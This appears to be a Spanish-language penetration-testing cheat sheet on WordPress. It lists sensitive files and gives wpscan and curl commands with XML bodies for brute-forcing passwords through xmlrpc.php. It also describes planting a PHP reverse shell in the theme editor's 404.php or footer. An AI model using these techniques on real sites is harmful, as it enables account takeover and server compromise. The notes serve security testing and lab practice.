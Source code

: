 ```yaml
---
title: "Wordpress"
layout: "single"
category: "Web Pentesting"
slug: "web-pentesting/wordpress"
date: "2025-09-30"
---
```


### Ficheros y lugares interesantes

*xlmrpc.php
*license.txt
*licencia.txt
*wp-config.php
*.htaccess
*wp-admin
*wp-login
*wp-content/plugins
*xmlrpc.php
### Cuando una web no se muestra bien

A veces cuando tenemos un wordpress, la pagina no se muestra correctamente (fondo blanco, todo descuadrado, sin formato, mal). Lo único que hay que hacer es comprobar que lo mas seguro es que haya virtual hosting, y se deba incluir la dirección IP en /etc/hosts
### Contraseñas por fuerza bruta en wordpress
Teniendo un usuario válido, se puede realizar lo siguiente
```bash
wpscan --url http://10.10.10.4:80 -U <usuario_valido> -P <diccionario>

```

### Contraseñas por fuerza bruta abusando de XMLRPC 
Con xmlrpc.php podemos intentar hacer ataques de fuerza bruta para descubrir contraseñas de usuarios conocidos.

#### Prueba con CURL

Teniendo un fichero **fichero.xml** con el siguiente contenido:

```xml
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

podemos hacer la siguiente petición
```bash
curl -s -X POST 'http://ip/xmlrpc.php' -d@fichero.xml
```

y recibiremos una respuesta con todos los métodos disponibles para utilizar con el xmlrpc. en este caso nos interesa el método: **wp.getUsersBlogs**

#### Explotación xmlrpc con CURL

Con el concepto anterior, se puede crear el **fichero.xml** con el siguiente contenido: 
```xml
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```

donde sustituimos username por un usuario válido y en password vamos probando contraseñas. Luego hacemos la misma petición por curl que en el ejemplo. 

Esto lo ideal es automatizarlo en un script que lea contraseñas de un fichero y vaya probando una a una.

#### Explotación xmlrpc con Burpsuite

**PDTE DESARROLLO**

### Explotación editor de temas para obtener una reverse shell

En el editor de temas de wordpress, podemos editar los ficheros, por ejemplo, que se debe mostrar en caso de **error 404**

Basta con editar el 404.php e introducir el código para una reverse shell en php, y visitar esa página o meter mal a posta la url para que nos mande ahí.

### Inyectar PHP malicioso

Cuando podemos subir ficheros, es tan facil como subir una reverse shell y luego ejecutarla, pero cuando no tenemos permisos para crear posts o subir ficheros podemos intentar inyectar el PHP malicioso de otra forma.

#### Inyectar PHP malicioso en TEMA de WORDPRESS
Menú lateral > Appeareance > Themes. Luego a la derecha, en **Theme footer** , y ahí podemos inyectar un código con una reverse shell que luego al visitar la web se va a interpretar.
